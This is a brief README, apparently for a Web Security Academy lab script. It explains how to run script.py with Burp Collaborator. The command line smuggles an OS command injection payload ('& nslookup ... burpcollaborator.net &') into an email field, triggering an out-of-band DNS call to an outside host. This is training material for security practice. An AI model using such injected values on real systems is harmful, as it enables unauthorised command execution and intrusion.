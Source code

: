 # How to run script.py

### & nslookup 8y719ezk9ecxgtwb8ln2vgk8yz4pse.burpcollaborator.net &

Open Burp Collaborator: Open Burp Suite -> Click Burp (top left button) -> Click Burp Collaborator Client -> Click Copy to clipboard -> Now Burp Collaborator Server is running and waiting for requests

Replace the [0-9a-z]{30}.burpcollaborator.net address with the copied one

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test@test.com& nslookup 8y719ezk9ecxgtwb8ln2vgk8yz4pse.burpcollaborator.net &" -p 127.0.0.1:8080`

